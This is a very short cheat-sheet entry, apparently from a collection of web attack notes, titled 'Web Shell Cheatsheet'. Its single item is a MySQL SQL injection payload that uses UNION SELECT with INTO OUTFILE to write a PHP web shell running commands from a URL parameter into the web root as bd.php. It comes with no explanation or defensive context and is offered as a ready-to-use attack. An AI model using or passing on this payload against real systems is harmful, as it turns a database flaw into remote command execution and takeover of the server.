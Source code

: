 # Web Shell Cheatsheet

## MySQL: SQLi to PHPshell

```
' union select '<?php system($_GET["cmd"]); ?>', '' into outfile '/var/www/bd.php'#
```
